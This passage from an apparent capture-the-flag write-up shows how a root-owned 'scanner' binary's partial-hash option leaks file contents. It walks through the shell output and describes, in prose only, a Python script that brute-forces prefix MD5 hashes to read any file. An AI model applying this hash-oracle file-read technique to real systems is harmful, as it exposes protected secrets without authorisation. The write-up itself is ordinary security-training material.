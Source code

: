 According to the information from the help page, the number of hashed bytes can be defined using the `-l` option. By setting the number of bytes to 4, as in the example provided, the correct hash is generated. This explains why the mismatched hashes when the `-l` option wasn't utilized, as the default size is 500 bytes.

```bash
(remote) greg@intentions:/tmp$ /opt/scanner/scanner -c /tmp/scanner_test -s '81dc9bdb52d04dc20036dbd8313ed055' -p -l 1
[DEBUG] /tmp/scanner_test has hash c4ca4238a0b923820dcc509a6f75849b
(remote) greg@intentions:/tmp$ echo -n '1' | md5sum -
c4ca4238a0b923820dcc509a6f75849b  -

(remote) greg@intentions:/tmp$ /opt/scanner/scanner -c /tmp/scanner_test -s '81dc9bdb52d04dc20036dbd8313ed055' -p -l 2
[DEBUG] /tmp/scanner_test has hash c20ad4d76fe97759aa27a0c99bff6710
(remote) greg@intentions:/tmp$ echo -n '12' | md5sum -
c20ad4d76fe97759aa27a0c99bff6710  -

(remote) greg@intentions:/tmp$ /opt/scanner/scanner -c /tmp/scanner_test -s '81dc9bdb52d04dc20036dbd8313ed055' -p -l 3
[DEBUG] /tmp/scanner_test has hash 202cb962ac59075b964b07152d234b70
(remote) greg@intentions:/tmp$ echo -n '123' | md5sum -
202cb962ac59075b964b07152d234b70  -

(remote) greg@intentions:/tmp$ /opt/scanner/scanner -c /tmp/scanner_test -s '81dc9bdb52d04dc20036dbd8313ed055' -p -l 4
[DEBUG] /tmp/scanner_test has hash 81dc9bdb52d04dc20036dbd8313ed055
[+] 81dc9bdb52d04dc20036dbd8313ed055 matches /tmp/scanner_test
```

This functionality could potentially be exploited to read files by essentially brute-forcing the hashes. Given that the binary is owned by the root user, ideally it could be used to read any file on the system. It would take too long to do this manually, so wrote a python script to automate the process.

### Brute-force automation script

The script consists of the following functions:

-   `grab_hash()`: Retrieves the hash generated by the `scanner` binary
-   `gen_hash()`: Generates an MD5 hash.
-   `correct_char()`: Compares hashes obtained from both functions to identify the character corresponding to the hash produced by the `scanner` binary

The script accepts a filename as a parameter and then initiates an infinite loop with the counter beginning at 1. Within each loop iteration:

-   The `grab_hash()` function is invoked with increasing hash lengths.
-   The hash obtained from `grab_hash()` is passed to `correct_char()` to identify the correct character.
-   The `correct_char()` generates md5 hashes for the decoded data + a character from the charset and matches it to the hash from scanner. If a match is found, the character is appended to the decoded data.
-   Within `correct_char()`, MD5 hashes are generated for the decoded data plus a character from the charset, and compared to the hash obtained from the `scanner`. If a match is found, the character is added to the decoded data.
-   In case no match is found, the infinite loop terminates, indicating either the complete data retrieval or the absence of the target character within the character set.
